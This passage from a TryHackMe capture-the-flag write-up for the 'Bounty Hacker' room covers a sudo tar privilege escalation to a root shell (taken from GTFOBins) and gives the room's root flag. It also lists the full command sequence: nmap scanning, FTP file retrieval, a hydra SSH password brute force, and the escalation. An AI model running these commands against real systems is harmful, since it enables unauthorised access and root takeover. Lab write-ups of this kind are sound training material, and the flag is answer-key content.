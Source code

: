 ![](https://github.com/KnowCybersecurity/TryHackMe-Writeups/blob/main/TryHackMe%20CTF%20Writeups/Assets/THM%20-%20Bounty%20Hacker/GTFOBins%20Tar.pngGTFOBins%20Tar.png)
21. `sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh` to escalate privileges by spawning in a Bourne shell (According to GTFOBins)
22. `whoami` to see if we’re now logged in as a higher privileged account, which shows that we're now logged in as root
```bash
lin@bountyhacker:~/Desktop$ sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
tar: Removing leading '/' from member names
#
```
```bash
# whoami
root
```
22. `find / -type f -name root.txt 2>/dev/null` to search for the **root.txt** file in the entire file system ("/") and display the path of any matching files while suppressing any error messages that may occur during the search
23. `cat {ROOT.TXT FILE PATH}` to display contents of the root.txt file on the terminal
```bash
# find / -type f -name root.txt 2>/dev/null
/root/root.txt
```
```bash
# cat /root/root.txt
THM{80UN7Y_h4cK3r}
```

**Room completed!**

![](https://github.com/KnowCybersecurity/TryHackMe-Writeups/blob/main/TryHackMe%20CTF%20Writeups/Assets/TryHackMe%20-%20Bounty%20Hacker.png)

# Command History
1. `nmap -sC -sV {TARGET-IP} > {FILENAME1}.txt`
2. `cat {FILENAME1}.txt`
3. `ftp {TARGET IP}`
4. `ls`
5. `get {FILE1}.txt`
6. `get {FILE2}.txt`
7. `exit`
8. `cd {DOWNLOADS DIRECTORY PATH}`
9. `ls`
10. `cat {FILE1}.txt`
11. `cat {FILE2}.txt`
12. `hydra -l lin -P {FILE1}.txt ssh://{TARGET IP}`
13. `ssh lin@{TARGET IP} -p 22`
14. `find / -type f -name user.txt 2>/dev/null`
15. `cat {USER.TXT FILE PATH}`
16. `sudo -l`
17. `firefox "https://gtfobins.github.io/"`
18. `sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh`
19. `whoami`
20. `find / -type f -name root.txt 2>/dev/null`
21. `cat {ROOT.TXT FILE PATH}`
